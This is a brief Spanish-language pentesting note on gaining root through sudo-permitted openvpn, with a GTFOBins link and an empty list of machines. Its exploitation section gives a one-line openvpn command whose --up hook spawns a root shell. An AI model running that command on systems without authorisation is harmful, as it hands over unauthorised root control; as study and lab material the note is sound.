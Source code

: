## DESCRIPTION

Escalada de privilegios si podemos ejecutar con "sudo" el programa openvpn

![[Pasted image 20230411180207.png]]

#### Mas información
* https://gtfobins.github.io/gtfobins/openvpn/


## EXPLOITATION

```
sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

## MACHINES


